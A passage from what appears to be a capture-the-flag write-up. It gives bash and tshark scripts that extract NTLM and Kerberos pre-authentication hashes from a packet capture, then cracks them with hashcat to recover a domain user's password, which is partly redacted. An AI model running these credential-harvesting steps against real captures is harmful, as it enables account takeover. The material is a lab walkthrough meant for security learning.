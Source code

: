 ```bash
    blob="${full_blob#$ntproof}"
    echo "$user::$domain:$challenge:$ntproof:${blob}"
    fi
done
```


```bash
./dump_ntlm_hashes.sh WS-01_PktMon.pcap > smb_hashes
hashcat smb_hashes /seclists/rockyou.txt
```

Provides us unfortunately with nothing. If you inspect the hashes, that would have been the admin hash, which would have been great.

So unlikely for credential access there, but the other aspect we saw was kerberos.

```bash
tshark -r WS-01_PktMon -Y 'kerberos'
```

Then we can do something similar targeting the AS-REQ since the user's hash will get passed as authentication. A modified script for the kerberos ones. Inspecting the user here is a different one...we have lion.sk who was a member of the `Domain CRA Managers` which may be useful

```bash
#!/usr/bin/env bash

pcap=$1

# Capture the Kerberos AS-REP messages
data_dump=$(tshark -r "$pcap" -Y 'kerberos.msg_type == 10' \
  -T fields -e kerberos.CNameString -e kerberos.realm -e kerberos.cipher)

# Process each line
while IFS=$'\t' read -r user domain hash; do
    [[ -z $user || -z $domain || -z $hash ]] && continue
    echo "\$krb5pa\$18\$$user\$$domain\$$hash"
done <<< "$data_dump"
```

```bash
./dump_krb5ASREQ_pcap.sh WS-01_PktMon.pcap > lion_sk.hash
hashcat lion_sk.hash /seclists/rockyou.txt

```
```text
$krb5pa$18$Lion.SK$CERTIFICATE$23f5159fa1c66ed7b0e561543eba6c010cd31f7e4a4377c2925cf306b98ed1e4f3951a50bc083c9bc0f16f0f586181c9d4ceda3fb5e852f0:!QA<redacted>
```

So we have it. These credentials do indeed work, so what can lion.sk do?
